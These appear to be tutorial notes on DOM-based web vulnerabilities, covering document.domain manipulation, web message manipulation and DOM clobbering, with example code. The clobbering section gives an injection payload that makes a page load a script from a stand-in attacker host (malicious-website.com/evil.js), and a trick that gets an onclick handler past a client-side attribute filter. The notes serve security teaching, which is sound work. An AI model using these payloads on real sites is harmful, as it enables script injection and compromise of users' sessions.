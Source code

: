 ## DOM-based document-domain manipulation
The document.domain property is used by browsers in their enforcement of the same origin policy. If two pages from different origins explicitly set the same document.domain value, then those two pages can interact in unrestricted ways. If an attacker can cause a page of a targeted website and another page they control (either directly, or via an XSS-like vulnerability) to set the same document.domain value, then the attacker may be able to fully compromise the target page via the page they already control.

## DOM-based web message manipulation
Web message vulnerabilities arise when a script sends attacker-controllable data as a web message to another document within the browser. An attacker may be able to use the web message data as a source by constructing a web page that, if visited by a user, will cause the user's browser to send a web message containing data that is under the attacker's control.

## DOM clobbering
DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. 

    <script>
        window.onload = function(){
            let someObject = window.someObject || {};
            let script = document.createElement('script');
            script.src = someObject.url;
            document.body.appendChild(script);
        };
    </script>
To exploit this vulnerable code, you could inject the following HTML to clobber the someObject reference with an anchor element:

    <a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the url property of the `someObject` object, which points to an external script.

Another common technique is to use a `form` element along with an element such as `input` to clobber DOM properties. For example, clobbering the attributes property enables you to bypass client-side filters that use it in their logic. Although the filter will enumerate the attributes property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, you will be able to inject malicious attributes that would normally be filtered out. For example, consider the following injection:

    <body>
        <form onclick="alert()"><input id="attributes" /></form>
    </body>
    <script>
        document.querySelectorAll("form").forEach((form) => {
            for (let i = 0; i < form.attributes.length; i++) {
            let attr = form.attributes[i]; // form.attributes = <input id="attributes">
            if (["onclick", "onmouseover"].includes(attr.name)) {
                form.removeAttribute(attr.name);
            }
            }
        });
    </script>
